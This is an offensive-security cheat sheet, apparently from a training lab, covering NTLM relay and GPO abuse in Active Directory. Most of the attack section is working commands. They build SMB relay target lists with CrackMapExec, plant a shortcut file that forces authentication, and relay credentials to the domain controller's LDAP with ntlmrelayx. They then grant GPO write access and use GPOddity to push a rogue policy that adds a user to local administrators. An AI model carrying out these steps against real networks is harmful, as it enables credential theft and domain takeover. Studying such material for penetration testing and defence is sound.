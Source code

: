 # NTLM Relay

When capturing a [NTLMv1/2](https://www.vaadata.com/blog/understanding-ntlm-authentication-and-ntlm-relay-attacks/) hashes with tools like Responder, attackers have two options:

* crack it to retrieve cleartext passwords
* relay it to gain code execution on a target

{% hint style="warning" %}
The relayed user must have privilege on the target.
{% endhint %}

### Valid targets <a href="#valid-targets" id="valid-targets"></a>

In order to relay hashes, we must have valid targets. **Valid targets are machines with SMB Signing disabled**.

SMB Signing is disabled by default on every Windows OS, except Windows Server.

To create a list file of valid targets, use [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec):

```bash
cme smb <networkIP>/<cidr> --gen-relay-list relayTargets.txt
```

### Relaying hashes <a href="#relaying-hashes" id="relaying-hashes"></a>

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Create a shortcurt lnk file with the below content  and place it inside th shared AI folder.

```powershell
powershell "iwr 172.16.x.x -UseDefaultCredentials"
```

Run the below comamnd in the WSL Linux to relay the credentials to the DC.

```bash
sudo ntlmrelayx.py -t ldap://dcorp-dc.dollarcorp.moneycorp.local --http-port '80,8080' -i --no-smb-server
```

Use netcat to connect to the interavtive session and use the below to add the user to have write access over the GPO.

<pre class="language-aspnet"><code class="lang-aspnet"><strong>write_gpo_dacl studentx {0BF8D01C-1F62-4BDC-958C-57140B67D147}
</strong></code></pre>

Now malicious GPO template can injected through GPOddity - [https://github.com/synacktiv/GPOddity](https://github.com/synacktiv/GPOddity)

<pre class="language-bash"><code class="lang-bash"># In linux machine change to the tool directory
<strong>cd /mnt/c/AD/Tools/GPOddity
</strong><strong># Use the GPOddity
</strong>sudo python3 gpoddity.py --domain dollarcorp.moneycorp.local --gpo-id '0BF8D01C-1F62-4BDC-958C-57140B67D147' --username studentx --password xyzdsfsddsf --dc-ip 172.16.2.1 --command "net localgroup administrators studentx  /add" --rogue-smbserver-ip 172.16.100.x --rogue-smbserver-share 'std-anything' --smb-mode none 
# Create a share with the name mentioned above and host the template
net share std-anything=C:\AD\Tools\GPOddity\GPT_out
# Grant everyone permission to those templates
icacls "C:\AD\Tools\GPOddity\GPT_out" /grant Everyone:F /T
# Verify the persmission with
Get-DomainGPO # Check gpcfilesyspath and whenchanged
winrs -r:dcorp-ci cmd /c "set computername &#x26;&#x26; set username"
</code></pre>

